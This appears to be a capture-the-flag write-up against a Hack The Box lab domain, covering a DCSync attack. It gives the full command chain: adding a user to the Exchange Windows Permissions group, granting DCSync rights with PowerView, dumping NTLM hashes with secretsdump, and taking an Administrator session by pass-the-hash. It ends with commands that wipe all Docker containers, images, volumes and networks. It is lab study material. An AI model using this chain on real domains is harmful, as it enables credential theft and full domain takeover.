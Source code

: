 > A **[DCSync attack](https://www.semperis.com/blog/dcsync-attack/){:target="_blank"}** is an attack technique that is typically used to steal credentials from an **AD database**. The attacker impersonates a domain controller (**DC**) to request password hashes from a target **DC**, using the **Directory Replication Services** (**DRS**) **Remote Protocol**. The attack can be used to effectively **“pull”** password hashes from the **DC**, without needing to run code on the **DC** itself. This type of attack is adept at bypassing traditional auditing and detection methods. Note that **the attacker must first gain access to an account with high-level permissions**, such as **Domain Admin** or an account with the ability to replicate data from the DC.

> **`Add-DomainObjectAcl`**: It's not a default **PowerShell cmdlet**. You have to get the `Powerview.ps1` module and source it, in order to use the the commands it offers.

> **[`PowerView`](https://powersploit.readthedocs.io/en/latest/Recon/){:target="_blank"}** is a **PowerShell tool** to gain network situational awareness on **Windows domains**. It contains a set of **pure-PowerShell replacements** for various windows **`net *`** commands, which utilize **PowerShell AD hooks** and underlying Win32 API functions to perform useful Windows domain functionality.

> **Victime Machine**:

```cmd
net group
# *Exchange Windows Permissions
net group "EXCHANGE WINDOWS PERMISSIONS" /add oldb0y
net user oldb0y

$SecPassword = ConvertTo-SecureString 'oldb0y123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\oldb0y', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Rights DCSync
# The term 'Add-DomainObjectAcl' is not recognized as the name of a cmdlet      :(
```

> **Attacker Machine**:

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
impacket-smbserver smbFolder $(pwd) -smb2support -username al3j0 -password al3j0123
```

> **Victime Machine**:

```cmd
copy \\10.10.14.2\smbFolder\PowerView.ps1 .\PowerView.ps1
Import-Module .\PowerView.ps1
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Rights DCSync
# :(
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity oldb0y -Rights DCSync
# :)
```

> **Attacker Machine**:

```bash
crackmapexec smb 10.10.10.161 -u 'oldb0y' -p 'oldb0y123'
impacket-secretsdump -just-dc-ntlm HTB/oldb0y:oldb0y123@10.10.10.161

crackmapexec smb 10.10.10.161 -u 'Administrator' -H '32...a6' --ntds vss
crackmapexec winrm 10.10.10.161 -u 'Administrator' -H '32...a6'
evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32...a6'
# :)
impacket-psexec -hashes "aa...ea6" Administrator@10.10.10.161

docker rm $(docker ps -a -q) --force
docker rmi $(docker images -q)
docker volume rm $(docker volume ls -q)
docker network rm $(docker network ls -q)
```
